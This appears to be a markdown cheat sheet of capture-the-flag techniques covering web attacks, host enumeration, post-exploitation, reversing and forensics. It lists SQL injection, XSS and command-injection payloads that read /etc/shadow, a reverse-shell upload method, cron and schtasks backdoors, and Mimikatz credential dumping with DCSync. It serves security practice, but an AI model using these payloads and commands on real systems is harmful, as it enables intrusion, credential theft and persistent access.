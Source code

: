 # CTF Techniques
* [Steps to follow in a CTF](https://github.com/chreniuc/CTF)

# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: `curl -I website.com/page.php`

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: `admin' OR 1=1`, `' OR 1=1-- -`, `" OR 1=1-- -`, `" OR 1 or "`, `admin"-- -"`, `admin;-- -'`

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: `|| cat ../flag.txt`, `| cat ../flag.txt`, `&& cat ../flag.txt`, `& cat ../flag.txt`, `; cat ../flag.txt`
Run [valid input] followed by: `|| cat ../../etc/passwd`, `| cat ../etc/shadow`, `&& cat ../etc/shadow`, `& cat ../etc/shadow`, `; cat ../etc/shadow`
Run [valid input] followed by: `|| ifconfig`, `| ifconfig`, `&& ifconfig`, `& ifconfig`, `; ifconfig`

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion

Any option to upload a file: make sure it's php. 
* [PHP Sandbox](https://onlinephp.io/) - Testing PHP code
* [PHP - Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) - Edit and upload this, run nc listener, then access file from target server to establish a shell
* If whitelisting is being used, add an extension to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
* `Nmap -A -v ipaddress` (-A for aggressive, -v for verbose) [-sV not required with -A]
* `Nmap -sC -sV ipaddress` (-sC for script scan, -sV for Version detection)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run `Strings <file> | grep flag`
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)
* [Reverse Engineering for Beginners - Free ELearning](https://www.begin.re/)
* [Cutter - RE Platform for Linux](https://cutter.re/)
 * [Cutter Example with HTB CTF2023 Challenge "Shatter Tablet"](https://www.youtube.com/watch?v=iCNLn3nvEZA)
* [IDA - Common Code Disassembler](https://hex-rays.com/ida-free/)
 * [IDA Basics Tutorial](https://resources.infosecinstitute.com/topic/basics-of-ida-pro-2/)
* [Ghidra - Common Decompiler](https://ghidra-sre.org/)
 * [Ghidra - NSA GitHub](https://github.com/NationalSecurityAgency/ghidra)
 * [Ghidra Install & Basics Tutorial](https://www.kalilinux.in/2021/06/ghidra-reverse-engineering-kali-linux.html)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: `http contains flag`, `tcp contains flag`
  * Right-click packet and select `Follow stream`
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  

* ps1 = Powershell
